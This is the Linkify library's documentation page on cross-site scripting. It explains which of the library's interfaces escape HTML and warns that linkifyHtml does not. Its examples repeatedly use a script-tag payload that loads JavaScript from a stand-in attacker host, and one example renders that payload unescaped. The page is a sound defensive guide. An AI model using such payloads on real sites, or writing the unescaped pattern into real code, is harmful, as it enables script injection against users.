 ```yaml
---
layout: docv3
title: Note about Cross-Site Scripting (XSS) · Documentation
toc: true
---
```


# Note about Cross-Site Scripting

<div class="alert alert-danger">
  <strong>Linkify is not a validation or XSS-prevention library.</strong>
  Used, improperly, this library can make you vulnerable to cross-site scripting
  attacks.
</div>

**In particular, take care when using the [`linkifyHtml`](linkify-html.html)
function.**

## Background: The DOM

The Document Object Model (DOM) is a tree-like data structure that represents an HTML
document. The browser uses it to organize and perform operations on a web page
that result in on-screen changes.

The DOM is composed of linked nodes with parent/child relationships. All HTML
elements such as `<html>`, `<body>` or `<p>` are represented by nodes which are
either empty or contain other child HTML element nodes and/or leaf text nodes.
Read more about [the DOM
here](https://developer.mozilla.org/en-US/docs/Web/API/Document_Object_Model).

## DOM interfaces are generally safe to use

The following interfaces operate on DOM (or DOM-like) nodes:

- [`linkify-element`](element.html)
- [`linkify-jquery`](jquery.html)
- [`linkify-react`](react.html)

The interface assumes all text nodes are plain text. It replaces those nodes
with one or more text or `<a>` anchor element nodes.

For example, the following is safe:

```jsx
import ReactDOM from "react-dom";
import Linkify from "linkify-react";

const container = document.getElementById("container");
const content =
  '<script src="https://evil.h4ckz.example.com/hack.js"></script>';

ReactDOM.render(<Linkify>{content}</Linkify>, container);
```

Linkify creates a text node for `<script src="`, an anchor tag node with href
`https://evil.h4ckz.example.com/hack.js` and a final text node for
`"></script>`.

React translates this into approximately the following DOM code:

```js
const node1 = document.createTextNode('<script src="');
container.appendChild(node1);

const node2 = document.createElement("a");
node2.setAttribute("href", "https://evil.h4ckz.example.com/hack.js");
node2.innerText = "https://evil.h4ckz.example.com/hack.js";
container.appendChild(node2);

const node3 = document.createTextNode('"></script>');
container.appendChild(node3);
```

**Each new text node is automatically "escaped" by the browser: HTML special
characters will appear literally on the page.** So this code is equivalent to an
HTML file with the following content:

```html
&lt;script src="
<a href="https://evil.h4ckz.example.com/hack.js">
  https://evil.h4ckz.example.com/hack.js
</a>
"&gt;&lt;/script&gt;
```

Which contains a harmless link to the malicious JavaScript (provided no one
downloads and runs it):

## `linkify-string` is generally safe to use

The [`linkify-string`](string.html) interface assumes that its input is
plain-text and outputs HTML. It converts HTML entities in the input to encoded
characters.

For example, the following is safe:

```js
document.body.innerHTML = linkifyStr(
  '<script src="https://evil.h4ckz.example.com/hack.js"></script>'
);
```

`linkifyStr` returns escapted text with a harmless link to the malicous
JavaScript:

```
'&lt;script src="<a href="https://evil.h4ckz.example.com/hack.js">https://evil.h4ckz.example.com/hack.js</a>"&gt;&lt;/script&gt;'
```

## `linkify-html` is UNSAFE if its input is not validated

Unlike `linkify-string` and the DOM interfaces, the [`linkify-html`](html.html) interface
**does NOT automatically escape malicous HTML**!! It will parse its input as
HTML and output unescaped HTML.

```js
const content =
  '<script src="https://evil.h4ckz.example.com/hack.js"></script>';
document.body.innerHTML = linkifyHtml(content); // DANGEROUS!! hack.js will be executed!!
```

**It is the programmer's responsibility to escape unwanted HTML before rendering
it to the webpage**.
